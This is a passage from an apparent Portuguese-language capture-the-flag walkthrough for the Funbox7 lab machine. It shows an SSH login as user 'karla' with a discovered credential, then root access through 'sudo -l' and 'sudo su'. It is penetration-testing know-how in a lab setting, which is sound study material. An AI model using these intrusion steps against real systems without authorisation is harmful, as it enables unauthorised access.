 A credencial foi válida para o usuário “karla”. Onde foi possível acessar o terminal via ssh.

```lua
┌──(kali㉿kali)-[~]
└─$ ssh karla@192.168.0.3
karla@192.168.0.3's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-117-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jan 18 03:06:42 UTC 2025

  System load:  0.0               Processes:             133
  Usage of /:   81.1% of 4.66GB   Users logged in:       0
  Memory usage: 60%               IP address for enp0s3: 192.168.0.3
  Swap usage:   1%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

69 packages can be updated.
1 update is a security update.

*** System restart required ***
Last login: Sat Sep 19 15:28:52 2020 from 192.168.178.143
karla@funbox7:~$
```

Para escalação de priv foi utilizado o comando `sudo -l`

```lua
karla@funbox7:~$ sudo -l
[sudo] password for karla: 
karla@funbox7:~$ sudo -l
[sudo] password for karla: 
Matching Defaults entries for karla on funbox7:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karla may run the following commands on funbox7:
    (ALL : ALL) ALL
karla@funbox7:~$ sudo su
root@funbox7:/home/karla# 
```

O usuário “karla” não necessita de autenticação para acessar como root.
